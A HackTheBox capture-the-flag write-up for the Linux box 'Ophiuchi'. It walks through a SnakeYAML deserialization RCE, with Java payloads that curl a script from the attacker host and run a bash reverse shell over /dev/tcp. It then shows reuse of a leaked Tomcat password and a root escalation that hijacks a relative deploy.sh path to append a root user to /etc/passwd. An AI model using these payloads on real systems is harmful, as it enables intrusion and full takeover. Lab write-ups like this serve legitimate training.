




---
Category:
  - B2R
Difficulty: Medium
Platform: HackTheBox
Status: 3. Complete
tags:
  - credentials-reuse
  - hardcoded-credentials
  - privesc/relative-paths-hijacking
  - reversing
  - snakeyaml
  - yaml-deserialization
  - Linux
---
# Resolution summary

>[!summary]
>**Ophiuchi** is a medium difficulty Linux box hosting a **YAML parser** vulnerable to a **YAML deserialization attacks** leading to remote code execution. Once inside the box it was possible to **leak some credentials** and **reuse them** to access the target with user privileges. Finally, privilege escalation to root was achieved **abusing a go script containing relative path**. After reversing and patching a **wasm** file it was possible to **hijack relative path reference** within the go script and execute arbitrary code.

## Improved skills

- YAML Deserialization Attacks
- Code Review
- Decompile and patch wasm file

## Used tools

- nmap
- gobuster
- netcat
- wabt (WebAssembly Binary Toolkit)

---

# Information Gathering

Scanned all TCP ports:

```bash
┌──(kali㉿kali)-[~/CTFs/HTB/box/Ophiuchi]
└─$ sudo nmap -p- -sS 10.10.10.227 -oN scans/all-tcp-ports.txt -v -Pn
...
PORT     STATE SERVICE
22/tcp   open  ssh
8080/tcp open  http-proxy
```

Enumerated open TCP ports:

```bash
┌──(kali㉿kali)-[~/CTFs/HTB/box/Ophiuchi]
└─$ sudo nmap -p22,8080 -sV -sT -sC -A 10.10.10.227 -oN scans/open-tcp-ports.txt -Pn
...
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   3072 6d:fc:68:e2:da:5e:80:df:bc:d0:45:f5:29:db:04:ee (RSA)
|   256 7a:c9:83:7e:13:cb:c3:f9:59:1e:53:21:ab:19:76:ab (ECDSA)
|_  256 17:6b:c3:a8:fc:5d:36:08:a1:40:89:d2:f4:0a:c6:46 (ED25519)
8080/tcp open  http    Apache Tomcat 9.0.38
|_http-title: Parse YAML
...
```

# Enumeration

## Port 8080 - HTTP (Apache Tomcat 9.0.38)

Enumerated port 8080 using a browser:



Enumerated web directories and files:

```bash
┌──(kali㉿kali)-[~/CTFs/HTB/box/Ophiuchi]
└─$ gobuster dir -u http://10.10.10.227:8080 -w /usr/share/seclists/Discovery/Web-Content/raft-medium-directories.txt -oN scans/p80-directories.txt -f
...
/manager/             (Status: 302) [Size: 0] [--> /manager/html]
/yaml/                (Status: 200) [Size: 8042]
/plain]/              (Status: 400) [Size: 762]
/[/                   (Status: 400) [Size: 762]
/]/                   (Status: 400) [Size: 762]
/quote]/              (Status: 400) [Size: 762]
Progress: 23982 / 30001 (79.94%)                                [ERROR] 2021/05/02 12:58:50 [!] parse "http://10.10.10.227:8080/error\x1f_log/": net/url: invalid control character in URL
/extension]/          (Status: 400) [Size: 762]
/[0-9]/               (Status: 400) [Size: 762]

┌──(kali㉿kali)-[~/CTFs/HTB/box/Ophiuchi]
└─$ gobuster dir -u http://10.10.10.227:8080 -w /usr/share/seclists/Discovery/Web-Content/raft-medium-files.txt -oN scans/p80-files.txt
/.                    (Status: 200) [Size: 8042]
/index.jsp            (Status: 200) [Size: 8042]
```

A known vulnerability of tomcat servers is the use of default credentials for **manager** and **host-manager** areas. Because directory enumeration revealed the existence of these area, access with default credentials was tried but with no luck.

Testing the YAML parser for unexpected behavior, an **Internal Server Error** was obtained, which **disclosed verbose error messages** and the **component used by the parser**.



# Exploitation

## SnakeYAML deserialization - CVE-2017-1000207

Searching on Google it was possible to find some interesting articles talking about a **deserialization vulnerability** (CVE-2017-1000207) impacting the **SnakeYaml** software, the exact same component used by the YAML parser.

- [Swagger YAML Parser Vulnerability (CVE-2017-1000207 and CVE-2017-1000208)](https://securitylab.github.com/research/swagger-yaml-parser-vulnerability/)
- [SnakeYaml Deserilization exploited](https://swapneildash.medium.com/snakeyaml-deserilization-exploited-b4a2c5ac0858)

CVE-2017-1000207:

>[!bug]
> A vulnerability in Swagger-Parser's version <= 1.0.30 and Swagger codegen version <= 2.2.2 yaml parsing functionality results in arbitrary code being executed when a maliciously crafted yaml Open-API specification is parsed. This in particular, affects the 'generate' and 'validate' command in swagger-codegen (<= 2.2.2) and can lead to arbitrary code being executed when these commands are used on a well-crafted yaml specification.


As discussed in the articles, sending a specific payload to the parser allowed to obtain a request from it.

The Poc used for the test was the following:

```yaml
!!javax.script.ScriptEngineManager [!!java.net.URLClassLoader [[!!java.net.URL ["http://10.10.14.24"]]]]
```

Submitting the PoC to the parser it was possible to obtain a connection back to the attacker machine:

```bash
┌──(kali㉿kali)-[~/CTFs/HTB/box/Ophiuchi]
└─$ sudo python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.10.227 - - [02/May/2021 13:34:48] "GET / HTTP/1.1" 200 -
```

Confirmed the existence of the vulnerability, to get a working RCE it was necessary to craft a specific payload or alternatively find an working one. After some googling the following GitHub repo was found, presenting itself as "A tiny project for **generating payloads for the SnakeYAML deserialization gadget**".

[https://github.com/artsploit/yaml-payload](https://github.com/artsploit/yaml-payload)

Once cloned the repository, the **AwesomeScriptEngineFactory.java** file was edited to download a malicious bash reverse shell on the target:

```bash
┌──(kali㉿kali)-[~/…/box/Ophiuchi/exploit/yaml-payload]
└─$ nano src/artsploit/AwesomeScriptEngineFactory.java

import javax.script.ScriptEngineFactory;
import java.io.IOException;
import java.util.List;

public class AwesomeScriptEngineFactory implements ScriptEngineFactory {

    public AwesomeScriptEngineFactory() {
        try {
        Runtime.getRuntime().exec("curl http://10.10.14.24/rs.sh -o /tmp/revshell.sh");
        } catch (IOException e) {
            e.printStackTrace();
        }
    }
...
```

The bash reverse shell was the following one:

```bash
#!/bin/sh
bash -i >& /dev/tcp/10.10.14.24/80 0>&1
```

After having prepared the payloads, the java file was compiled as described inside the repo and the second stage payload was hosted:

```bash
┌──(kali㉿kali)-[~/…/box/Ophiuchi/exploit/yaml-payload]
└─$ javac src/artsploit/AwesomeScriptEngineFactory.java
Picked up _JAVA_OPTIONS: -Dawt.useSystemAAFontSettings=on -Dswing.aatext=true

┌──(kali㉿kali)-[~/…/box/Ophiuchi/exploit/yaml-payload]
└─$ jar -cvf yaml-payload.jar -C src/ .
Picked up _JAVA_OPTIONS: -Dawt.useSystemAAFontSettings=on -Dswing.aatext=true
added manifest
adding: artsploit/(in = 0) (out= 0)(stored 0%)
adding: artsploit/AwesomeScriptEngineFactory.java(in = 1563) (out= 431)(deflated 72%)
adding: artsploit/AwesomeScriptEngineFactory.class(in = 1635) (out= 692)(deflated 57%)
ignoring entry META-INF/
adding: META-INF/services/(in = 0) (out= 0)(stored 0%)
adding: META-INF/services/javax.script.ScriptEngineFactory(in = 36) (out= 38)(deflated -5%)

┌──(kali㉿kali)-[~/…/box/Ophiuchi/exploit/yaml-payload]
└─$ sudo python3 -m http.server 80 
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

The exploit was then submitted to the parser and the second stage payload was downloaded:

```yaml
!!javax.script.ScriptEngineManager [!!java.net.URLClassLoader [[!!java.net.URL ["http://10.10.14.24/yaml-payload.jar"]]]]
```



```bash
┌──(kali㉿kali)-[~/…/box/Ophiuchi/exploit/yaml-payload]
└─$ sudo python3 -m http.server 80 
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.10.227 - - [02/May/2021 16:14:01] "GET /yaml-payload.jar HTTP/1.1" 200 -
```

Once downloaded the bash reverse shell on the target, it was necessary to execute it. To achieve the task the **AwesomeScriptEngineFactory.java** was edited once again, this time with the purpose to execute the previously uploaded bash script and provide a reverse shell.

Second payload:

```java
┌──(kali㉿kali)-[~/…/box/Ophiuchi/exploit/yaml-payload]
└─$ nano src/artsploit/AwesomeScriptEngineFactory.java

import javax.script.ScriptEngineFactory;
import java.io.IOException;
import java.util.List;

public class AwesomeScriptEngineFactory implements ScriptEngineFactory {

    public AwesomeScriptEngineFactory() {
        try {
        //Runtime.getRuntime().exec("curl http://10.10.14.24:443/rs.sh -o /tmp/rev.sh");
        Runtime.getRuntime().exec("bash /tmp/rev.sh");
        } catch (IOException e) {
            e.printStackTrace();
        }
    }
	...
```

Compiled and hosted once again:

```bash
┌──(kali㉿kali)-[~/…/box/Ophiuchi/exploit/yaml-payload]
└─$ javac src/artsploit/AwesomeScriptEngineFactory.java
Picked up _JAVA_OPTIONS: -Dawt.useSystemAAFontSettings=on -Dswing.aatext=true

┌──(kali㉿kali)-[~/…/box/Ophiuchi/exploit/yaml-payload]
└─$ jar -cvf yaml-payload.jar -C src/ .
Picked up _JAVA_OPTIONS: -Dawt.useSystemAAFontSettings=on -Dswing.aatext=true
added manifest
adding: artsploit/(in = 0) (out= 0)(stored 0%)
adding: artsploit/AwesomeScriptEngineFactory.java(in = 1563) (out= 431)(deflated 72%)
adding: artsploit/AwesomeScriptEngineFactory.class(in = 1635) (out= 692)(deflated 57%)
ignoring entry META-INF/
adding: META-INF/services/(in = 0) (out= 0)(stored 0%)
adding: META-INF/services/javax.script.ScriptEngineFactory(in = 36) (out= 38)(deflated -5%)

┌──(kali㉿kali)-[~/…/box/Ophiuchi/exploit/yaml-payload]
└─$ sudo python3 -m http.server 80 
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.10.227 - - [02/May/2021 16:14:01] "GET /yaml-payload.jar HTTP/1.1" 200 -
10.10.10.227 - - [02/May/2021 16:14:01] "GET /yaml-payload.jar HTTP/1.1" 200 -
```

Executed the second stage on the target machine and obtained the reverse shell:


```bash
┌──(kali㉿kali)-[~/CTFs/HTB/box/Ophiuchi]
└─$ sudo nc -nlvp 10099
listening on [any] 10099 ...
connect to [10.10.14.24] from (UNKNOWN) [10.10.10.227] 53984
bash: cannot set terminal process group (831): Inappropriate ioctl for device
bash: no job control in this shell
tomcat@ophiuchi:/$ id
id
uid=1001(tomcat) gid=1001(tomcat) groups=1001(tomcat)
tomcat@ophiuchi:/$ which python3
which python3
/usr/bin/python3
tomcat@ophiuchi:/$ python3 -c 'import pty;pty.spawn("/bin/bash")'
python3 -c 'import pty;pty.spawn("/bin/bash")'
tomcat@ophiuchi:/$ ^Z
zsh: suspended  sudo nc -nlvp 10099

┌──(kali㉿kali)-[~/CTFs/HTB/box/Ophiuchi]
└─$ stty raw -echo; fg

[1]  + continued  sudo nc -nlvp 10099

tomcat@ophiuchi:/$ export TERM=xterm
```

# Lateral Movement to admin

During the enumeration phase it was not possible to access the **/manager/** area with default credentials, meaning that **credentials was different**. Finding them would be an **easy win in case of password reuse**.

Searched tomcat admin credentials:

```bash
tomcat@ophiuchi:~$ grep -ri 'password' . --color 2>/dev/null
...
./conf/tomcat-users.xml:<user username="admin" password="whythereisalimit" roles="manager-gui,admin-gui"/>
...
```

Logged as **admin** reusing tomcat credentials:

```bash
tomcat@ophiuchi:~$ su admin
Password: whythereisalimit
admin@ophiuchi:/opt/tomcat$ id
uid=1000(admin) gid=1000(admin) groups=1000(admin)
```

# Privilege Escalation

## Relative Path Hijacking in a custom Go binary

Enumerated sudo privileges for the **admin** user:

```bash
admin@ophiuchi:~$ sudo -l
Matching Defaults entries for admin on ophiuchi:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User admin may run the following commands on ophiuchi:
    (ALL) NOPASSWD: /usr/bin/go run /opt/wasm-functions/index.go
```

Enumerated contents of **/opt/wasm-functions/index.go**:

```bash
package main

import (
        "fmt"
        wasm "github.com/wasmerio/wasmer-go/wasmer"
        "os/exec"
        "log"
)

func main() {
        bytes, _ := wasm.ReadBytes("main.wasm")

        instance, _ := wasm.NewInstance(bytes)
        defer instance.Close()
        init := instance.Exports["info"]
        result,_ := init()
        f := result.String()
        if (f != "1") {
                fmt.Println("Not ready to deploy")
        } else {
                fmt.Println("Ready to deploy")
                out, err := exec.Command("/bin/sh", "deploy.sh").Output()
                if err != nil {
                        log.Fatal(err)
                }
                fmt.Println(string(out))
        }
}
```

Enumerated contents of **/opt/wasm-functions/**:

```bash
admin@ophiuchi:~$ ls -al /opt/wasm-functions/
total 3928
drwxr-xr-x 3 root root    4096 Oct 14  2020 .
drwxr-xr-x 5 root root    4096 Oct 14  2020 ..
drwxr-xr-x 2 root root    4096 Oct 14  2020 backup
-rw-r--r-- 1 root root      88 Oct 14  2020 deploy.sh
-rwxr-xr-x 1 root root 2516736 Oct 14  2020 index
-rw-rw-r-- 1 root root     522 Oct 14  2020 index.go
-rwxrwxr-x 1 root root 1479371 Oct 14  2020 main.wasm
```

What this script do is importing the **wasm** function from github.com/wasmerio/wasmer-go/wasmer, reading a the **main.wasm** file, extracting the `info` field and controlling its value. In case info is different by 1 the script print an error message, otherwise it execute the deploy.sh script. What stands out is that the script executes delpoy.sh without specifying the absolute path of the file.

```bash
...
func main() {
        bytes, _ := wasm.ReadBytes("main.wasm")
		...
                out, err := exec.Command("/bin/sh", "deploy.sh").Output()
        ...
```

Relative path can be abused in order to execute arbitrary code from any user's writable path. By being able to control the flow of the program **it would be possible to execute an arbitrary script with elevated privileges** (thanks to sudo).

First of all, a **bash script that inject a second arbitrary root user** was created inside the user directory:

```bash
admin@ophiuchi:~$ echo '#!/bin/bash' > deploy.sh 
admin@ophiuchi:~$ echo 'echo "root2:AK24fcSx2Il3I:0:0:root:/root:/bin/bash" >> /etc/passwd' > deploy.sh 
admin@ophiuchi:~$ cat deploy.sh 
#!/bin/bash
echo "root2:AK24fcSx2Il3I:0:0:root:/root:/bin/bash" >> /etc/passwd
```

Then the **main.wasm** file was searched and copied on the current directory in order to have the file which allows to control the data flow of the script:

```bash
admin@ophiuchi:/$ find / -name main.wasm 2>/dev/null
/opt/wasm-functions/main.wasm
/opt/wasm-functions/backup/main.wasm
admin@ophiuchi:~$ cp /opt/wasm-functions/backup/main.wasm .
admin@ophiuchi:~$ sudo /usr/bin/go run /opt/wasm-functions/index.go
Not ready to deploy
```

Unfortunately the program returned "Not ready to deploy", meaning that the **main.wasm** file returned an `info` value different then **1**.

Googling around about information on wasm files and how to work with them, a GitHub repository named **WebAssembly Binary Toolkit** ([wabt](https://github.com/WebAssembly/wabt)) showed up. The toolkit allowed to transform `.wasm` file into `.wat` (WebAssembly Text), edit them and then rebuild `.wat` into `.wasm` files. This allowed to create a **file that would have executed the deployment** and therefore the backdoor created previously.

To begin with, after installing wabt the wasm file was downloaded using `scp` and was decompiled to understand its functionality:

```bash
┌──(kali㉿kali)-[~/…/Ophiuchi/exploit/wabt/build]
└─$ scp admin@10.10.10.227:/home/admin/main.wasm ../../main.wasm
admin@10.10.10.227's password:
main.wasm

┌──(kali㉿kali)-[~/…/box/Ophiuchi/exploit/wabt]
└─$ bin/wasm-decompile ../main.wasm -o ../main.dcmp

┌──(kali㉿kali)-[~/…/box/Ophiuchi/exploit/wabt]
└─$ cat ../main.dcmp
export memory memory(initial: 16, max: 0);

global g_a:int = 1048576;
export global data_end:int = 1048576;
export global heap_base:int = 1048576;

table T_a:funcref(min: 1, max: 1);

export function info():int {
  return 0
}
```

Having understood how it works and figured out where to make the change that would allow the go script to be controlled, the wasm file was **transformed into wat**, it was **modified**, and it was **transformed back into wasm** again.

```bash
┌──(kali㉿kali)-[~/…/box/Ophiuchi/exploit/wabt]
└─$ bin/wasm2wat ../main.wasm
(module
  (type (;0;) (func (result i32)))
  (func $info (type 0) (result i32)
    i32.const 0)
  (table (;0;) 1 1 funcref)
  (memory (;0;) 16)
  (global (;0;) (mut i32) (i32.const 1048576))
  (global (;1;) i32 (i32.const 1048576))
  (global (;2;) i32 (i32.const 1048576))
  (export "memory" (memory 0))
  (export "info" (func $info))
  (export "__data_end" (global 1))
  (export "__heap_base" (global 2)))

┌──(kali㉿kali)-[~/…/box/Ophiuchi/exploit/wabt]
└─$ bin/wasm2wat ../main.wasm -o ../main.wat
  
┌──(kali㉿kali)-[~/…/box/Ophiuchi/exploit/wabt]
└─$ nano ../main.wat
...
(func $info (type 0) (result i32)
    i32.const 1)
...
┌──(kali㉿kali)-[~/…/box/Ophiuchi/exploit/wabt]
└─$ bin/wat2wasm ../main.wat -o ../test.wasm
```

Decompiling the new wasm file resulted in a function returning info equals to 1, allowing to control `index.go`:

```bash
┌──(kali㉿kali)-[~/…/box/Ophiuchi/exploit/wabt]
└─$ bin/wasm-decompile ../test.wasm 
export memory memory(initial: 16, max: 0);

global g_a:int = 1048576;
export global data_end:int = 1048576;
export global heap_base:int = 1048576;

table T_a:funcref(min: 1, max: 1);

export function info():int {
  return 1
}
```

To conclude, the **new wasm file was uploaded** to the target and the **go script was executed** saying it was **Ready to deploy** the malicious `deploy.sh` script. An arbitrary root2 user was successfully injected and it was used to escalate to root:

```bash
┌──(kali㉿kali)-[~/…/box/Ophiuchi/exploit/wabt]
└─$ scp ../test.wasm admin@10.10.10.227:/home/admin/main.wasm  
admin@10.10.10.227's password: 
test.wasm												100%  112     2.0KB/s   00:00

admin@ophiuchi:~$ ls
deploy.sh  main.wasm  user.txt
admin@ophiuchi:~$ sudo /usr/bin/go run /opt/wasm-functions/index.go
Ready to deploy

admin@ophiuchi:~$ tail /etc/passwd
...
admin:x:1000:1000:,,,:/home/admin:/bin/bash
root2:AK24fcSx2Il3I:0:0:root:/root:/bin/bash

admin@ophiuchi:~$ su root2
Password: evil
root@ophiuchi:/home/admin# whoami && hostname && cat /root/root.txt && ifconfig -a
root
ophiuchi
96adc130ebd6b788b72b64b358cb0cab
ens160: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
        inet 10.10.10.227  netmask 255.255.255.0  broadcast 10.10.10.255
        inet6 dead:beef::250:56ff:feb9:c237  prefixlen 64  scopeid 0x0<global>
        inet6 fe80::250:56ff:feb9:c237  prefixlen 64  scopeid 0x20<link>
        ether 00:50:56:b9:c2:37  txqueuelen 1000  (Ethernet)
        RX packets 5443  bytes 456406 (456.4 KB)
        RX errors 0  dropped 39  overruns 0  frame 0
        TX packets 2998  bytes 2858019 (2.8 MB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0

lo: flags=73<UP,LOOPBACK,RUNNING>  mtu 65536
        inet 127.0.0.1  netmask 255.0.0.0
        inet6 ::1  prefixlen 128  scopeid 0x10<host>
        loop  txqueuelen 1000  (Local Loopback)
        RX packets 9778  bytes 707444 (707.4 KB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 9778  bytes 707444 (707.4 KB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0
```



# Trophy

>[!quote]
>Two possibilities exist: either we are alone in the Universe or we are not. Both are equally terrifying.
>
>\- Arthur C. Clarke

>[!success]
>**User.txt**
>d1adbf98c8eac636fc5b613f6c5412aa

>[!success]
>**Root.txt**
>96adc130ebd6b788b72b64b358cb0cab